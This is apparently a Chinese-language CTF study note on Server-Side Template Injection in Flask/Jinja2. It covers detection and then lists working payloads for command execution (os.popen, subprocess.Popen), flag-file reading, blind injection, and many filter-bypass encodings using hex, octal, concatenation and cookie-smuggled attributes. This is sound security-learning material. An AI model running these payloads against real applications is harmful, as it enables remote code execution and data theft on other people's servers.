 ```yaml
---
title: 【WEB】SSTI
---
```


# SSTI

SSTI为模板注入，以下皆为 Python3 环境

首先由于模板解析的特性，当使用 render_template_string 则可以通过各个类之间的调用造成命令执行

```
render_template_string("{{1+1}}")
```

这一解析方法时就会把输入的内容直接放入页面解析，通常的检测方法为 

```
{{1+1}}
```

返回的是 2，这也说明其中的内容被执行。

而安全的方法是

```
render_template("{{1+1}}")
```

返回的是 

```
{{1+1}}
```



## 利用方法

通常是通过某一对象向上寻找基类，进而使用包含某些特殊方法的类，并调用其中的危险函数来执行命令

以下为 flask 的常见可用类

```
75 <class '_frozen_importlib._ModuleLock'>
76 <class '_frozen_importlib._DummyModuleLock'>
77 <class '_frozen_importlib._ModuleLockManager'>
78 <class '_frozen_importlib._installed_safely'>
79 <class '_frozen_importlib.ModuleSpec'>
91 <class '_frozen_importlib_external.FileLoader'>
92 <class '_frozen_importlib_external._NamespacePath'>
93 <class '_frozen_importlib_external._NamespaceLoader'>
95 <class '_frozen_importlib_external.FileFinder'>
103 <class 'codecs.IncrementalEncoder'>
104 <class 'codecs.IncrementalDecoder'>
105 <class 'codecs.StreamReaderWriter'>
106 <class 'codecs.StreamRecoder'>
128 <class 'os._wrap_close'>
129 <class '_sitebuiltins.Quitter'>
130 <class '_sitebuiltins._Printer'>
```

当确定存在模板注入后就是先寻找可用类

```
{{''.__class__.__mro__[1].__subclasses__()}}

__class__ 返回调用的参数类型
__mro__ 此属性是在方法解析期间寻找基类时考虑的类元组
__subclasses__() 返回object的子类
```

class 返回 str 类，str的基类是 object类，之后返回object的子类，就可以实现多种方法

例如命令执行：

```
{{''.__class__.__mro__[1].__subclasses__()[75].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')}}
```

文件读取：

```
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['open']('/this_is_the_flag.txt').read()}}
```



## WAF绕过

很多 Python 中的语法在 SSTI 中也都是可以用的

attr 用于获取变量，以下写法是相同的

```
""|attr("__class__")
"".__class__
```

获取数组参数可以使用

```
__gititem__()
__gititem__(数组下标)
__gititem__("key")
```

绕过双引号可以使用

 ```
request.cookies.参数名
request.args.参数名
 ```

比如通过 + 进行拼接绕过关键字，也可以使用 “” 进行拼接，或者 `"str1".__add__("str2")` 的方式

```
{{''.__class__.__mro__[1].__subclasses__()[75].__init__.__globals__['__buil'+'tins__']['ev'+'al']('__imp'+'ort__("o'+'s").pop'+'en("ls").read()')}}
{{[].__class__.__base__.__subclasses__()[75].__init__.__globals__.__builtins__["open"]("/fl""ag").read()}}
{{app.__init__.__globals__["__buil".__add__("tins__")].open("/fla".__add__("g")).read()}}
```

通过十六进制绕过 . 和 _

```
{{''["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fmro\x5f\x5f"][1]["\x5f\x5fsubclasses\x5f\x5f"]()[342]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]('os')["popen"]("ls")["read"]()}}
```

或者在无回显的时候进行盲注 `177 threading.Semaphore`

```
{% if ''.__class__.__mro__[-1].__subclasses__()[177].__init__.__globals__['__bui'+'ltins__']['open']('/app/flag').read()[0:1]=='f' %}xxx{% endif %}
```

也有特殊的可用类 `<class 'subprocess.Popen'>` 直接执行命令

```
{{''.__class__.__mro__[-1].__subclasses__()[258]('cat /flasklight/coomme_geeeett_youur_flek',shell=True,stdout=-1).communicate()[0].strip()}}
```

或者利用 getattr 进行沙箱逃逸

```
getattr(getattr(getattr(getattr(getattr(getattr(getattr([],'__cla'+'ss__'),'__mr'+'o__')[1],'__subclas'+'ses__')()[104],'__init__'),'__glob'+'al'+'s__')['sy'+'s'],'mod'+'ules')['o'+'s'],'sy'+'ste'+'m')('l'+'s')
```

和利用八进制绕过

```
{%print%0a(lipsum|attr("\137\137\147\154\157\142\141\154\163\137\137"))|attr("\137\137\147\145\164\151\164\145\155\137\137")("\137\137\142\165\151\154\164\151\156\163\137\137")|attr("\137\137\147\145\164\151\164\145\155\137\137")("\145\166\141\154")("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\160\157\160\145\156\50\47\143\141\164\40\57\146\154\141\147\47\51\56\162\145\141\144\50\51")%}
```

利用 attr 和 request 绕过

```
{{()|attr(request.cookies.x1)|attr(request.cookies.x2)|attr(request.cookies.x3)()|attr(request.cookies.x4)(78)|attr(request.cookies.x5)|attr(request.cookies.x6)|attr(request.cookies.x4)(request.cookies.x7)|attr(request.cookies.x4)(request.cookies.x9)(request.cookies.x10)}}
Cookie: x1=__class__; x2=__base__; x3=__subclasses__; x4=__getitem__; x5=__init__; x6=__globals__; x7=__builtins__; x8=__getitem__; x9=eval; x10=__import__("os").popen("cat flag.txt").read();
```



## 其他方法

查看对象属性

```
(对象名).func_globals  
(对象名).__code__.co_consts 
(对象名).__code__.co_names
(对象名).__dict__
(对象名).__globals__
```



## 相关题目

BUUCTF		[BJDCTF 2nd]fake google